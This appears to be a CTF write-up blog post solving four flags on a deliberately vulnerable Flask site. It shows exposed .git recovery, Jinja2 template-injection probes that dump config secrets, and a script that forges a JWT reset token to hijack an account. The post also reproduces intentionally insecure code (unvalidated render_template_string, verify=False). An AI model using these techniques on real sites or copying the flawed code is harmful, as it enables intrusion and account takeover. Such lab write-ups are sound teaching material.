 ```yaml
---
layout: post
title:  "ØxＯＰＯＳɆＣ Mɇɇtuᵽ [0x70] Challenge Write-up"
categories: [infosec, iot]
tags: [oposec, infosec, ctf]
description: "Write-up for the CTF-like challenge of 0x70 edition of the ØxＯＰＯＳɆＣ Mɇɇtuᵽ"
---
```


"Based in Porto, the ØxＯＰＯＳɆＣ group was started by g33ks who are passionate about security. The meetup primary mission is to discuss and tackle upsurging security issues by leveraging the expertise and know-how of members of the group." This is the write-up of the challenge at the 0x70 meetup edition, by [DDuarte](https://github.com/DDuarte) and André Morais.
<!--more-->

The meetup happens in a monthly-basis, feel free to [join in](https://www.meetup.com/0xOPOSEC/).

![Index Page/Login](/images/oposec/index.png)

Jumping to the challenge. We're given an URL to a Twitter-like website named Twipy (image). From the name, we can conclude that maybe it is made in Python. We know that there are 4 flags to be found: 

- Flag 1 - Version Control is easy
- Flag 2 - Debug 101
- Flag 3 - Nice tweet Eve 🧪
- Flag 4 - This link is bamboozling

All the flags have the same format: *{flag}Rand0mStuff*

## Recon

First things first, lets make some recon even without creating an account. Firing up a [dirsearch](https://github.com/maurosoria/dirsearch) maybe will give us something. The results can be summed up as follow (200 status code results):

{% highlight bash linenos %}
$ dirsearch -u "example.com" -e py,php
|- 200 -    1KB - /.git/
|- 200 -  735B  - /.gitignore
|- 200 -    3KB - /auth/login
|- 200 -   19KB - /debug.log
{% endhighlight %}

So, from dirsearch, we found an exposed ```.git``` folder and a ```debug.log``` file. Downloading all the things with ```wget```.

{% highlight bash linenos %}
$ wget --mirror -I .git http://example.com/.git/
$ wget http://example.com/debug.log
{% endhighlight %}

Before moving further, firing up ```nmap``` returns only ports 22 (SSH) and 80 (HTTP), so nothing unusual here. We could try to find the credentials for the SSH, but it is a long-shot from the beginning. Firing also ```sqlmap``` on all the possible injectable fields (login form, account reset and ```next``` query param) also resulted in a dead-end.

![Timeline/Home](/images/oposec/timeline.png)

Moving further, and creating an account, we end up with a timeline (image). In the image we can see another user posts, *Willis Adams*, which has two messages being one of them a private message that we can only see the first 6 chars: *{flag}\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\**. Only the *Willis Adams* user can see the message behind the asterisk, but it is a flag. 

The other features of the website like the update profile, explore other users tweets and searching resulted in dead-ends.

## Flag 1 - Version Control is easy

After finding the ```.git``` folder, the next obvious step was to try to recover all the source code. By making a ```$ git status``` we could see all the files that were deleted. 

{% highlight bash linenos %}
$ git checkout -- .
{% endhighlight %}

Running the above command restored all the files to their most recent version (before being deleted). By checking the ```$ git log``` we found out some curious commit messages like *Don't disclose mail password :)*, but I could not find anything by analyzing the git diffs. 

Since we know that all flags have the same format, making an exaustive search among all files and revisions:
{% highlight bash linenos %}
$ git grep ".*flag.*" $(git rev-list --all)
{% endhighlight %}

We could find that in the commit ```eb3cb7e1ec4e73b0850ec4a6c4a89122599d213d``` the file ```twipy.py``` had the following line of code:

{% highlight python linenos %}
return '{flag}Us3_vault_for_no_p4sswords_1n_s0urce_cod3.'
{% endhighlight %}
    
And so, we have our first flag:

>> {flag}Us3_vault_for_no_p4sswords_1n_s0urce_cod3.

## Flag 2 - Debug 101

During our recon phase we found out that a ```debug.log``` was exposed and accessible. Analyzing its contents we could immediatelly find the next flag:

{% highlight bash linenos %}
2019-01-10 17:52:25,489 ERROR: Unhandled Exception: {flag}b3_c4r3ful_w1th_Wh4t_y0u_l34v3_pUbl1c [in /twipy/app/errors/handlers.py:21]
{% endhighlight %}

Further, we found out that calling ```http://example.com/flag``` was the trigger to write that exception to the log file.

>> {flag}b3_c4r3ful_w1th_Wh4t_y0u_l34v3_pUbl1c

## Flag 3 - Nice tweet Eve 🧪

Since we now have access to the source code of the app, and sure that the app is written in Python, one of the first things that come to mind is [Server-Side Template Injection](https://portswigger.net/blog/server-side-template-injection). Reading some tutorials and write-ups about the subject I found this one as being the most straightforward: [Flaskcards challenge at Pico CTF 2018](https://s0cket7.com/picoctf-web).

To find if the website is vulnerable we simply tweet ```\{\{ 7 * 7 \}\}```, and in the alert-info box we got the following response:
*You just posted: 49*

So our code is being executed. In order to exploit Template Injection firstly, we must find out what is the template engine being used. To do so, the probe ```\{\{7 * '7'\}\}``` would result in ```49``` in Twig, ```7777777``` in Jinja2, and neither if no template language is in use. In our case, the response was: *You just posted: 7777777*, so we're dealing with Jinja2.

We could also reach the same conclusion by analyzing the Python packages in the ```requirements.txt``` file. And we could also identify the vulnerable code:

{% highlight python linenos %}
# TODO add user input validation
post_content = render_template_string('''You just posted: %s ''' % form.post.data)
{% endhighlight %}

The next step was trying to get the config, posting ```\{\{ config.items() \}\}```, which resulted in an alert-info with a lot of information that is contained in the config, including:
- FLAG: {flag}V4lid4t3_always_us3r_1NPUT 
- SECRET_KEY: yJmsCAeao5zOM3gvoxHrOyM5HGJTTDpQ7UxAIHneCxc=
- SQLALCHEMY_DATABASE_URI: mysql+pymysql://twipy:RkZDwtkaZ9ugnwf@db/twip

So we have our third flag:

>> {flag}V4lid4t3_always_us3r_1NPUT 

## Flag 4 - This link is bamboozling

One of the things that can be easily noticed is that each user has a unique UUID, e.g. *ae1677ca-f7bd-431a-8280-8fdf4aa801ca*. We can also visit other users profiles and get their unique UUID. 

{% highlight python linenos %}
god_user = User.query.filter_by(email='willis.adams@example.com').first()
if god_user:
    user.follow(god_user)
{% endhighlight %}

Analyzing the code creating a new user account, we notice that all the users must follow the user *Willis Adams*, with the UUID *70a82737-a6d9-4284-93db-0600db6f05ca*. 

{% highlight python linenos %}
def dummy_password(size=8, chars=string.ascii_letters + string.digits):
    return ''.join(random.choice(chars) for i in range(size))
{% endhighlight %}

Since the passwords are randomly generated in the ```twipy.py```, brute-forcing would take too much time. Another attack-vector can be the recovery password mechanism. By analyzing the structure of the recovery link, we notice that it resembles a [JWT token](https://jwt.io/): 

```http://example.com/auth/reset_password/eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InphZnlmb2t1QGdldG5hZGEuY29tIiwiaWQiOiJhZTE2NzdjYS1mN2JkLTQzMWEtODI4MC04ZmRmNGFhODAxY2EiLCJleHAiOjE1NDc3MjY4NzEuMzgwMzQ2LCJuYW1lIjoidHNhciJ9.pDrpqe-GB8Qo2xEdD5pDA9wIOtNpOl3GAq19LBFZJXs```.

In the  ```models.py``` file we have the following logic for assigning and validating recovery password tokens (JWT tokens).

{% highlight python linenos %}
def get_token(self, expires_in=600):
    return jwt.encode(
        {'id': self.id, 'name': self.name, 'email': self.email, 'exp': time() + expires_in},
        current_app.config['SECRET_KEY'],
        algorithm='HS256').decode('utf-8')

@staticmethod
def verify_token(token):
    try:
        id = jwt.decode(token, current_app.config['SECRET_KEY'], verify=False, algorithms=['HS256'])['id']
    except:
        return
    return User.query.get(id)
{% endhighlight %}

Since there is no call to database or nounce being used, we can make our own JWT tokens if we know the SECRET_KEY (from the third flag) and the UUID of the target user, in this case, the **god user**.

By making a simple script (checking out in the requirements.txt the Python package used for the JWT - PyJWT), we can get the JWT token in question.

{% highlight python linenos %}
import jwt
from time import time

secret_key = 'yJmsCAeao5zOM3gvoxHrOyM5HGJTTDpQ7UxAIHneCxc='
id = "70a82737-a6d9-4284-93db-0600db6f05ca"
name = "Willis Adams"
email = "willis.adams@example.com"
expires_in = 600;

print jwt.encode(
    {'id': id, 'name': name, 'email': email, 'exp': time() + expires_in},
    secret_key,
    algorithm='HS256').decode('utf-8')
{% endhighlight %}

By setting a new password to the *god user* we can see their private tweets thus getting the flag.

>> {flag}4lw4ys_v3r1fy_y0ur_t0k3NS


## Wrap-Up

It was a nice web challenge, always learning a little bit more about infosec and CTFs. Kudos @dduarte and @AndreMorais for the challenge.